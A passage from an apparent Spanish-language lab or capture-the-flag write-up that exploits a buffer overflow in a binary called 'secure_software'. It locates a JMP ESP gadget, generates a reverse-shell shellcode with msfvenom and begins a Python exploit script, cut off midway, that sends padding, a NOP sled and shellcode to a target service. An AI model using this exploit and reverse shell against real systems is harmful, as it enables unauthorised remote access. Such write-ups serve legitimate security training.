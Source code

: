 ```shell
objdump -d secure_software | grep "FF E4" -i
```

Info:

```
8049213:       ff e4                   jmp    *%esp
```

Y veremos que la direccion de memoria es `0x08049213`.

### Generar un Shellcode (Reverse Shell)

Ahora generaremos un `shellcode` con `msfvenom` de la siguiente forma:

```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -b '\x00\x0a\x0d' -f py
```

El flag `-b '\x00\x0a\x0d'` excluye los caracteres nulos y de salto de línea, ya que podrían interrumpir la ejecución del payload. El flag `-f py` genera el código en formato Python para facilitar su inclusión en scripts.

Info:

```
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of py file: 479 bytes
buf =  b""
buf += b"\xda\xd0\xba\xd0\xd0\x81\xae\xd9\x74\x24\xf4\x5f"
buf += b"\x33\xc9\xb1\x12\x83\xef\xfc\x31\x57\x13\x03\x87"
buf += b"\xc3\x63\x5b\x16\x3f\x94\x47\x0b\xfc\x08\xe2\xa9"
buf += b"\x8b\x4e\x42\xcb\x46\x10\x30\x4a\xe9\x2e\xfa\xec"
buf += b"\x40\x28\xfd\x84\x92\x62\xf8\xee\x7b\x71\x03\x10"
buf += b"\x1d\xfc\xe2\x9c\xbb\xae\xb5\x8f\xf0\x4c\xbf\xce"
buf += b"\x3a\xd2\xed\x78\xab\xfc\x62\x10\x5b\x2c\xaa\x82"
buf += b"\xf2\xbb\x57\x10\x56\x35\x76\x24\x53\x88\xf9"
```

### Obtener una shell como el usuario securedev

Por lo que crearemos un script para automatizar todo esto y tambien añadiremos en el script una cadena de `NOPS` para que salte todo hasta nuestro `shellcode` y se ejecute nuestra `rever shell`.

> step4.py

```python
#!/usr/bin/python3

import socket
from struct import pack

target_ip = "172.17.0.2"
target_port = 20201

buffer_size = 288
padding = b"A" * buffer_size
jmp_esp_address = pack("<L", 0x08049213)  # Dirección de JMP ESP obtenida con análisis previo.
nop_sled = b'\x90' * 32  # Pista de NOPs para mayor tolerancia.

# Shellcode personalizado para reverse shell
reverse_shellcode =  b""
reverse_shellcode += b"\xba\x77\xff\xe1\x69\xd9\xec\xd9\x74\x24\xf4\x58"
```